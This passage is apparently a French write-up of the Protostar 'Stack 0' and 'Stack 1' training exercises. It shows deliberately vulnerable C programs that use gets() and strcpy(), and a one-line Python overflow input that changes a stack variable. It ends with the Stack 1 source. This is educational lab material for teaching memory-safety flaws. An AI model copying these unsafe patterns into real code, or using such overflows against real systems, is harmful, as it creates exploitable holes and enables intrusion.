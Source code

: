 # Stack 0 #

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```

Parceque la variable modified est placée avant dans la pile, le débordement du buffer écrase celle ci.

```
python -c 'print "a" * 66 ' | ./stack0
you have changed the 'modified' variable
```

# Stack 1 #

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
